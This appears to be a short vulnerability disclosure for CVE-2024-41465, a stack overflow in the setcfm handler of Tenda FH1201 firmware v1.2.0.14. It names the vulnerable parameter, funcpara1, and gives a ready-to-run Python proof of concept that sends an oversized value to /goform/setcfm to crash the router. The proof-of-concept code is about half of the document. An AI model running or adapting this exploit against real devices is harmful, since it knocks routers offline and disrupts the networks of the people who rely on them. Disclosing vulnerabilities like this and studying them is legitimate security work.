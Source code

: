 # setcfm

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41465

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the setcfm function.The parameter funcpara1 is copied to stackspace v10 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the funcpara1 parameter

![image-20240724100556341](./image-20240724100556341.png)

![image-20240724100625056](./image-20240724100625056.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = "http://" + ip + "/goform/setcfm"


data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}


response = requests.post(url, data=data)
print(response.text)

```



![image-20240724100713804](./image-20240724100713804.png)
